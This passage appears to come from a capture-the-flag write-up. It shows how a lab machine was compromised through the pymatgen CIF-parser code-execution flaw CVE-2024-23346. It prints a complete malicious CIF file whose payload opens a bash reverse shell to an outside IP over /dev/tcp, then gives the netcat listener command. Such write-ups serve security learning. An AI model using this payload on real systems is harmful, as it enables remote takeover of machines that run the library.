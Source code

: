 It seems that a vulnerability in Python's pymatgen library (**CVE-2024-23346**) allows for RCE, so let's take the PoC and modify it to our need:

```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
<br />

Let's upload this file, start a **reverse shell listener** and execute it:

```bash
nc -nlvp 4444
```

![](/assets/Chemistry/4.png)
<br />
<br />

We got a reverse shell in the machine, however **this user doesn't the flag**, but there is **another user called rosa** that have it, inspecting the machine, I found **SQLite credentials** in the **app.py file** that I didn't use, but I also found the SQLite database:<br />

![](/assets/Chemistry/5.png)